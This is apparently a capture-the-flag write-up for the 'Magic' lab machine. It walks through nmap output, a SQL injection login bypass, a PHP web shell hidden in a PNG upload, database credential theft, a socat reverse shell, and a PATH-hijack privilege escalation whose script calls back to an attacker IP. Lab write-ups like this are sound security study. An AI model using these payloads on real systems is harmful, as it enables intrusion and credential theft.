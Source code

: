 # User

## nmap

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## web server

`' OR 1=1 #` will log you in to the app:

```
curl -v 'http://magic.htb/login.php' -H 'Connection: keep-alive' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' -H 'Origin: http://magic.htb' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H 'Referer: http://magic.htb/login.php' -H 'Accept-Language: en-US,en;q=0.9,la;q=0.8' -H 'Cookie: PHPSESSID=m1r6hiuv0dpcdl527ndtkencdd' --data "username=' OR 1=1 #&password=magic" --compressed --insecure
```

## upload.php

Some protections are in place, but a well named and crafted file is still executed as php. Append the php to a png file via

`dd if=short-shell.php >> smile.png`

Then upload the file with spaces in the name like `s.php s.png`. Then when accessing `http://magic.htb/images/uploads/s.php%20%20%20s.png` in the browser it
ends up rendering as php and we get a web shell. There's a cron job that periodically removes images from the uploads directory, so it helps to use the initial
shell file to put another webshell in the root.

## Web Shell

`/etc/passwd` contains an entry for theseus, it seems to be publickey only for authentication.

There is username and password in thesues in db.php5:

```php
private static $dbName = 'Magic' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
```

.htaccess looks interesting

```
<FilesMatch ".+\.ph(p([3457s]|\-s)?|t|tml)">
SetHandler application/x-httpd-php
</FilesMatch>
<Files ~ "\.(sh|sql)">
order deny,allow
deny from all
</Files>
```

Uploading adminer.php and connect to the database to get the admin login:
`admin:Th3s3usW4sK1ng`.

## Reverse Shell and Owning User

Use the webshell to setup a reverse shell with socat, then upgrade it. We can't ssh into the machine with a password, but we can `su theseus` and use the admin password in the database. Then we add our public key to `authorized_keys` and we have SSH access.

# Root

Run some enumeration(`suid3num.py`) and find the `sysinfo` command. When running the `sysinfo` command, in `pspy` you see the following commands being run

```
2020/05/10 23:56:31 CMD: UID=0    PID=18077  | lshw -short
2020/05/10 23:56:31 CMD: UID=0    PID=18076  | sh -c lshw -short
2020/05/11 00:08:16 CMD: UID=0    PID=18272  | fdisk -l
2020/05/11 00:08:16 CMD: UID=0    PID=18271  | sh -c fdisk -l
2020/05/11 00:08:16 CMD: UID=0    PID=18276  | free -h
2020/05/11 00:08:16 CMD: UID=0    PID=18275  | sh -c free -h
```

Changing the path will result in our own executable being run. Make an `lshw` file, and add the command for a reverse shell:

```sh
#!\bin\sh

/home/theseus/socat64s exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.39:44444
```

Make it executable, then modify the path and run sysinfo

`PATH=/home/theseus/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin sysinfo`

Use the reverse shell to grab root.txt
